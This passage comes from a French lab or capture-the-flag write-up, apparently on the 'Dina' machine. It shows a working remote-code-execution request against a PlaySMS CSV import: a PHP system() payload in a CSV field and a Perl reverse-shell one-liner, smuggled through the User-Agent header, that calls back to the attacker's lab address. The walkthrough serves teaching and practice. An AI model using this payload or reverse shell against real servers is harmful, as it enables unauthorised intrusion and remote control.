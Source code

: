 ![Affichage de l'image Index-ImportCSV-RCE.png](images/Index-ImportCSV-RCE.png)

Ça a marché ! À présent, un [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) va être mis en place, afin de créer une connexion sur le port 12345 entre le serveur Dina (192.168.56.101) et notre propre machine (192.168.56.102). Pour varier un peu les plaisirs, le _one-liner_ en Perl est choisi au détriment de Python.

### Requête n°2 interceptée par Burp

```console
POST /SecreTSMSgatwayLogin/index.php?app=main&inc=feature_phonebook&route=import&op=import HTTP/1.1
Host: 192.168.56.101
User-Agent: perl -e 'use Socket;$i="192.168.56.102";$p=12345;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.101/SecreTSMSgatwayLogin/index.php?app=main&inc=feature_phonebook&route=import&op=list
Content-Type: multipart/form-data; boundary=---------------------------32075226656004
Content-Length: 448
Cookie: PHPSESSID=ptslj41of81uh73res2dke4h85
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------32075226656004
Content-Disposition: form-data; name="X-CSRF-Token"

1df086a9ab06c8807a95c6799aa25fab
-----------------------------32075226656004
Content-Disposition: form-data; name="fnpb"; filename="RCE-playsms.csv"
Content-Type: application/vnd.ms-excel

"Name","Mobile","Email","Group Code","Tags"
"<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>",22,,,
-----------------------------32075226656004--
```
